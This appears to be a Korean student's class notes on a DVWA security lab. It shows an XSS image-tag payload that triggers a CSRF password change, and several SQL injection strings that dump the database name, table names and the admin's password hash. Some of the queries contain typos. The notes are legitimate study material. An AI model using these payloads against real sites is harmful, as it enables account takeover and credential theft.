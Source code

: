 오늘의 수업
-

### 비밀번호를 XXS를 사용해서 바꾸기 실습
    실행이 직접적으로 보지는 못하여 실패 
    그냥 
                        
      <img+src="https://ugc.production.linktr.ee/jl9DQQM1QxiPQklpiKii_GjzZ0fFXW61vAGZx"+oneerror='this.src="http://192.168.126.128:9980/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change"'/>
    
    이러한 코드를 사용한다 정도만 알려둬야 함.

### sql를 주입하다의 주제

- 오늘의 신기한 화면들

![image](https://github.com/user-attachments/assets/558caa3b-4c54-45ab-a867-7cd0caf61573)

![image](https://github.com/user-attachments/assets/faca6c64-8176-4aa9-8fbd-724c53761f16)

![image](https://github.com/user-attachments/assets/2df0e038-2a10-4baa-a083-67de0cc74224)

이러한 쿼리문 적기

    select first_namem, last_name from users where usser_id = '$id';
    
    select first_namem, last_name from users where usser_id = ''or1=1#';
    
    select first_namem, last_name from users where usser_id = ''union select 1, detabase()#';
    
    select first_namem, last_name from users where usser_id = ''union 
    select 1, table_name from information_schema.table where table_schema = 'dvwa'#';

    select first_namem, last_name from users where usser_id = ''union 
    select user, password from users where user = 'admin'#';

---

<details>
<summary> 소감 </summary>
    
    이해는 어느정도 되었고 수업이 되게 흥미롭다는 느낌을 받은 오늘의 수업이였다.
    여러가지를 찾으면서 어떤 식으로 하는지를 알게 되었고 점점 이러한 수업과 보안에 대해서
    익숙해지면서 이해가 조금씩 더 잘 되고 있는거 같다는 생각이 들었다.
    
</details>
